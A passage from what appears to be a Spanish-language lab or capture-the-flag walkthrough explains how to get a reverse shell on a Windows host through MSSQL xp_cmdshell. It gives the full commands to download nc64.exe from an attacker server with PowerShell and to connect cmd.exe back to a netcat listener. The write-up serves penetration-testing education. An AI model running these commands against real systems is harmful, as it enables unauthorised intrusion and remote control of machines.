 
## Fase 4: Estableciendo una Shell Reversa (Análisis Profundo)
La ejecución de comandos a través de `xp_cmdshell` es limitada. Para un control interactivo y estable, es esencial establecer una shell reversa.

### ¿Qué es y por qué usar una Shell Reversa?
Una **shell reversa** es una sesión de línea de comandos donde la máquina víctima inicia la conexión hacia el atacante. Esto es fundamental en pentesting porque las reglas de firewall de las redes corporativas suelen ser restrictivas para las conexiones entrantes (desde internet hacia el servidor), pero muy permisivas para las conexiones salientes (desde el servidor hacia internet). Al hacer que la víctima se conecte "hacia afuera", evadimos eficazmente estas protecciones perimetrales.

### El Papel de Netcat y cmd.exe
En esta fase, se combinan dos herramientas para lograr la shell:

* **Netcat (`nc`):** Es la navaja suiza de las redes. En la máquina del atacante, actúa como un *listener* (`-l`), esperando una conexión entrante en un puerto específico.
* **`cmd.exe`:** Es el intérprete de comandos de Windows. Este es el programa que realmente ejecutará los comandos en la máquina víctima. Netcat solo sirve como el "canal" o "tubería" para conectar nuestro terminal remoto a este intérprete.

**Acciones Realizadas:**

1.  **Preparación del Atacante:**
    * *Servidor HTTP:* Se levanta un servidor web simple con Python para alojar el payload (`nc64.exe`).
        ```bash
        # En una terminal del atacante
        sudo python3 -m http.server 80
        ```
    * *Listener con Netcat:* Se pone a Netcat a escuchar en un puerto (ej. 443) para recibir la conexión de la víctima.
        ```bash
        # En otra terminal del atacante
        sudo nc -lvnp 443
        ```

2.  **Transferencia del Payload a la Víctima:**
    * Usando `xp_cmdshell`, se ejecuta un comando de PowerShell en la víctima para descargar `nc64.exe` desde el servidor del atacante a un directorio con permisos de escritura.
        ```sql
        SQL> xp_cmdshell "powershell -c "cd C:\Users\sql_svc\Downloads; wget http://<IP_ATACANTE>/nc64.exe -outfile nc64.exe""
        ```

3.  **Ejecución de la Shell Reversa:**
    * Se ejecuta el comando final para iniciar `nc64.exe` en la víctima. Este comando le dice a Netcat que se conecte a la IP y puerto del atacante y, una vez conectado, ejecute (`-e`) el programa `cmd.exe`, vinculando la sesión de red a la entrada/salida del intérprete de comandos.
        ```sql
        SQL> xp_cmdshell "powershell -c "C:\Users\sql_svc\Downloads\nc64.exe -e cmd.exe <IP_ATACANTE> 443""
        ```
Al ejecutar este último paso, el listener de Netcat en la máquina del atacante recibe la conexión y presenta un prompt interactivo de Windows (`C:\Users\sql_svc\Downloads>`), confirmando un punto de apoyo (*foothold*) exitoso en el sistema.

---